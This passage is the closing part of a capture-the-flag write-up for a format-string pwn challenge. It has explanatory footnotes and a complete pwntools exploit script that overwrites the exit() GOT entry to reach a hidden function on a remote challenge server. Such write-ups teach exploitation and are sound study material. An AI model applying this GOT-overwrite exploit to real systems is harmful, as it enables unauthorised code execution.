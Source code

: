 ## Footnotes
1. There are inevitably errors _somewhere_ in my interpretation of the program. What matters is that you get the important parts right.
2. This is intentionally simplified --- don't @ me.
3. In i386. x86-64 programs will take arguments off the register first, and other architectures will further baffle with their surprises.
4. Two things about this function that may be confusing:
   * If you've never touched pwntools, you probably have no idea what `sendlineafter()` or `pack()` is. **Read the pwntools documentation**, seasoned pwners don't do that enough, and you should start out on the right path.
   * `report_ID=[1]` is a nice (read: horrifying) python hack that I'm using here to keep a variable that is
       1. stored between function calls, and
       2. bounded (local) to the function itself
   * Also, if you're stuck in python2, you may be confused by the [type hints](https://www.python.org/dev/peps/pep-0483/) present in the code. Please move on!
5. Not so easy if the challenge organisers run gcc with `-s`. Watch out for that in other CTFs.
6. The bithacks here are to grab the lowest (&0xff) and the second lowest (&0xff00 >> 8) bytes respectively.
7. Instead of `r.interactive()` (which most writeups do), the python script terminates with `r.recvuntil('}')` because `unknownfunction()` itself actually calls `exit()`, causing an infinite loop that will cause pwntools to become non-responsive.

## An extra note
I only wrote `write_byte()` as a way of explaining how `printf()` works. After you learn the ropes, you should **never, ever** re-write another format string handling function, because `printf()` exploit helpers are already [packaged along](http://docs.pwntools.com/en/stable/fmtstr.html) in pwntools. I even made [an extended version of their format string library](https://github.com/152334H/pwnscripts), along with other automated functions I use for pwnables. 

During the CTF, my code was a lot dirtier, and I abused `fmtstr_payload()` instead of reinventing the wheel as above.
```python
from pwnscripts import *
context.binary = 'beta_reporting'
def printf(s,name):
    r = remote('yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg', 30121)
    r.sendlineafter('choice: \n', '1')
    r.sendlineafter('\n', s)
    r.sendlineafter('choice: \n', '2')
    r.sendlineafter('name: \n', name)
    r.sendlineafter('menu: \n', '1')
    return r
offset = 8
payload = fmtstr_payload(2, {context.binary.got['exit']: context.binary.symbols['unknownfunction']})
r = printf(payload[:36], payload[36:])
r.sendlineafter('menu: \n', '0')
r.recvuntil('choice: \n')
r.sendline('4')
r.recvuntil('choice: \n')
r.sendline('5')
r.interactive()
```
This code makes sense if you've done a lot of `printf()` problems before, but would be totally nonsensical to a beginner. I'm including it here for the sake of it.
